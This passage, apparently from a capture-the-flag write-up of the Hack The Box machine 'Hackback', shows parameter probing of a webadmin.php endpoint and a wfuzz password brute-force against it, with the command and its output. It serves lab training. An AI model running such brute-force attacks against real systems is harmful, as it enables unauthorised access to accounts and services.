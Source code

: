 
#### webadmin.php

I’ll use the other parameters from the javascript to build a url. I’ll start
with hackthebox, and leave the password as *s, and try each of the actions.
Everything I put in results in a 302 redirect, but in burp, I can see
sometimes data is returned.

Parameters | Result  
---|---  
`action=show&site=hackthebox&password=********&session=` | No Data  
`action=list&site=hackthebox&password=********&session=` | ![1551306419129](https://0xdfimages.gitlab.io/img/1551306419129.png)  
`action=exec&site=hackthebox&password=********&session=` | ![1551306481235](https://0xdfimages.gitlab.io/img/1551306481235.png)  
`action=init&site=hackthebox&password=********&session=` | No Data  
  
For `action=list` it is complaining about the key. I’ll find the password with
`wfuzz` (where `--hh 17` comes from running it without, and seeing what I can
filter, killing it, and adding that):

    
    
    root@kali# wfuzz -c -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hw 0 --hh 17 'http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session='
    
    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=
    Total requests: 1000
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000007:  C=302      7 L       15 W          197 Ch        "12345678"
    
    Total time: 2.237437
    Processed Requests: 1000
    Filtered Requests: 999
    Requests/sec.: 446.9397
    

With the password, when I enter action list, I still get a 302, but now with
data:

![1551526130551](https://0xdfimages.gitlab.io/img/1551526130551.png)

If I go to the fake HTB login, and enter something, a new log shows up:

    
    
    Array
    (
        [0] => .
        [1] => ..
        [2] => 8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7.log
        [3] => e691d0d9c19785cf4c5ab50375c10d83130f175f7f89ebd1899eee6a7aab0dd7.log
    )
    